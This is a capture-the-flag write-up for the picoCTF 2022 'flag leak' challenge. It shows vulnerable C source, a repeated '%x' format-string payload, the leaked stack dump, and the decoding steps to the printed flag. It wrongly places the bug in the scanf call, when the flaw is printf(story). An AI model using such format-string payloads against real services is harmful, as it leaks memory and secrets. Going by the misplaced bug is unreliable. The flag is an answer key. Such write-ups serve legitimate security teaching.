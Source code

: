 # picoCTF 2022 flag leak (Binary Exploitation 300 points)
The challenge is the following,

![Figure 1](img/challenge.png) 

We are also given the executable file [vuln](./files/vuln) and its source code [vuln.c](./files/vuln.c),

```
1.  #include <stdio.h>
2.  #include <stdlib.h>
3.  #include <string.h>
4.  #include <unistd.h>
5.  #include <sys/types.h>
6.  #include <wchar.h>
7.  #include <locale.h>
8. 
9.  #define BUFSIZE 64
10. #define FLAGSIZE 64
11. 
12. void readflag(char* buf, size_t len) {
13.   FILE *f = fopen("flag.txt","r");
14.   if (f == NULL) {
15.     printf("%s %s", "Please create 'flag.txt' in this directory with your",
16.                     "own debugging flag.\n");
17.     exit(0);
18.   }
19. 
20.   fgets(buf,len,f); // size bound read
21. }
22. 
23. void vuln(){
24.    char flag[BUFSIZE];
25.    char story[128];
26. 
27.    readflag(flag, FLAGSIZE);
28. 
29.    printf("Tell me a story and then I'll tell you one >> ");
30.    scanf("%127s", story);
31.    printf("Here's a story - \n");
32.    printf(story);
33.    printf("\n");
34. }
35. 
36. int main(int argc, char **argv){
37. 
38.   setvbuf(stdout, NULL, _IONBF, 0);
39.   
40.   // Set the gid to the effective gid
41.   // this prevents /bin/sh from dropping the privileges
42.   gid_t gid = getegid();
43.   setresgid(gid, gid, gid);
44.   vuln();
45.   return 0;
46. }
47. 
```

This problem is similar to a [picoGYM challenge I did some time ago](https://www.youtube.com/watch?v=0NjQ7qUIuTs). I saw that line 30 `scanf("%127s", story)` has a format string vulnerability, where the memory can be leaked with `%x`. So I went ahead and connected to the remote server and inputted `%x`,

![Figure 1](img/one.png) 

Which gave me `ffee0140`, so I tried more,

![Figure 1](img/two.png) 

And I tried even more,

```
%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x
```


![Figure 1](img/final.png) 


Which gave me,
```
fff2a990fff2a9b08049346782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578252578256f6369707b4654436b34334c5f676e3167346c466666305f3474535f625f6b63653034387d393738fbad2000556b29000f7f4a990804c00080494100804c000fff2aa7880494182fff2ab24fff2ab300fff2aa9000f7d40ee5
```
I saw that the following section might be ASCII,

`6f6369707b4654436b34334c5f676e3167346c466666305f3474535f625f6b63653034387d393738`

So I entered spaces between them,

`6f 63 69 70 7b 46 54 43 6b 34 33 4c 5f 67 6e 31 67 34 6c 46 66 66 30 5f 34 74 53 5f 62 5f 6b 63 65 30 34 38 7d 39 37 38`

And I went to CyberChef to convert it from hex,

![Figure 1](img/ascii.png) 

This looked like the flag, but was scrambled up. So I assumed that I had to swap the endianness,

![Figure 1](img/flag.png) 

Therefore, the flag is,

`picoCTF{L34k1ng_Fl4g_0ff_St4ck_b840e879}`
